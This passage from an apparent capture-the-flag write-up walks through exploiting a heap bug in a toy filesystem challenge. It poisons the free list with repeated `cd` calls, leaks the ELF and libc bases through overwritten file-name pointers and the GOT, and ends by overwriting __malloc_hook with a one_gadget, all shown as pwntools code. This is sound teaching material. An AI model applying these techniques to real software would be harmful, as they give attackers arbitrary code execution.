 IMMAGINE


Now, with some `cd` it is possible to consume the free list. With what? With a pointer to the pointer of the name of file3. In this way we will move our free list in a list already prepared with file3, file4 and file5.

```python
cdDir       (conn, p64(heap_base + OFFSET_FILENAME5))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME5))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME5))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME5))
```

After this 4 commands our free lists will point to the pointer of the name of file3. Consuming another chunk will allow us to change the pointer of the name of file3 with an arbitrary pointer and moreover, the next free chunk will be the name of file3, which is a pointer ;)
The new value of the pointer of the name of file3 will be a pointer close to the start of the heap. Indeed, in this region, there are pointers to the `.bss` because the root structure of the system is allocated on the `.bss` and several directories(bin, etc, lib...) have, as parent, the root directory. All this stuff will lead to a leak of the ELF.

```python
cdDir       (conn, p64(heap_base + ELF_POSITION))
leak = ls   (conn, '')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[3]
leak = leak.ljust(8, '\x00')
elf_base = u64(leak) - ELF_OFFSET
print 'ELF base: ' + hex(elf_base)
```

## Libc leak

Same as before, just changing the pointer of the name of file4 to the pointer of the `__stack_chk_fail` in the `.got`. This will lead to a leak of the libc.

```python
cdDir       (conn, p64(elf_base + SCHK_OFFSET_GOT))
cdDir       (conn, p64(elf_base + SCHK_OFFSET_GOT))
leak = ls   (conn, '')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[2]
leak = leak.ljust(8, '\x00')
libc_base = u64(leak) - SCHK_OFFSET
print 'libc base: ' + hex(libc_base)
```

## Magic

Finally, we just need to chenge the value of the `__malloc_hook` to a value given by one_gadget.

![Onegadget](images/onegadget.png)
